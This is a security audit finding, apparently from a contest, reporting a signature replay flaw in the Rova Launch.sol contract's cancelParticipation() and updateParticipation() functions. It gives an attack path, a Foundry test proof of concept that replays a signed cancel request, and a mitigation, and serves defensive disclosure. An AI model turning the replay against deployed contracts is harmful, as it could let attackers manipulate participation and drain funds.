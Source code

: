 Zealous Black Coyote

Medium

# Signature replay

### Summary

 The protocol does not mark the signature as used and delete the `launchParticipationId`. This allows a bad actor to replay the signature.


### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L326
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L418

The `cancelParticipation()` function is used to cancel an existing participation. In the function, the protocol validates that the request signature is from the signer role and then resets the participation information. 

```solidity
   // Validate request signature is from signer role
        _validateRequestSignature(keccak256(abi.encode(request)), signature);
.....
   // Reset participation info
        info.tokenAmount = 0;
        info.currencyAmount = 0;


```

However, the protocol does not mark the signature as used and delete the `launchParticipationId`. This allows a bad actor to replay the signature.



### Internal Pre-conditions

There are some participating users.

### External Pre-conditions

None

### Attack Path

1. Bob participates in a launch group.
2. After some time, he calls the `cancelParticipation()` function to cancel his participation. The expiration time in the signature is long.
3. Since the protocol does not delete the `launchParticipationId`, Bob can call the `updateParticipation()` function to participate in the launch group again using the same data as his first participation.
4. After some more time, Bob wants to cancel the participation again, so he calls `cancelParticipation()` with the same signature.

The function `updateParticipation()` has the same issue.

### Impact

Signature replay

### PoC

Put the following POC code into the Launch.Launch.CancelParticipation.t contract, then run forge test --match-test "forge test --match-test "test_CancelParticipation1" -vvv" 
```solidity
 function test_CancelParticipation1() public {
        // Prepare cancel participation request
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        ParticipationInfo memory info = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(info.tokenAmount, 1000 * 10 ** 18);
        assertEq(info.currencyAmount, 1000 * 10 ** 18);
        uint256 initialUserTokenAmount = launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId);
        uint256 startingBalance = currency.balanceOf(user1);

        vm.startPrank(user1);

        // Expect ParticipationCancelled event
        vm.expectEmit();
        emit ParticipationCancelled(
            cancelRequest.launchGroupId,
            cancelRequest.launchParticipationId,
            cancelRequest.userId,
            user1,
            info.currencyAmount,
            address(currency)
        );

        // Update participation
        launch.cancelParticipation(cancelRequest, cancelSignature);
        vm.stopPrank();

        // Verify update
        ParticipationInfo memory newInfo = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(newInfo.tokenAmount, 0);
        assertEq(newInfo.currencyAmount, 0);

        // Verify user balance
        assertEq(currency.balanceOf(user1), startingBalance + info.currencyAmount);

        // Verify user tokens
        uint256 userTokenAmount = launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId);
        assertEq(userTokenAmount, initialUserTokenAmount - info.tokenAmount);

        // Verify user ID is no longer in the launch group
        assertEq(launch.getLaunchGroupParticipantUserIds(testLaunchGroupId).length, 0);
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(1000);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount);

        // Expect ParticipationUpdated event
        vm.expectEmit();
        emit ParticipationUpdated(
            updateRequest.launchGroupId,
            updateRequest.newLaunchParticipationId,
            testUserId,
            user1,
            updateRequest.tokenAmount,
            address(currency)
        );

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);
           // Update participation
        launch.cancelParticipation(cancelRequest, cancelSignature);

    }

```

### Mitigation

Mark the used signatures.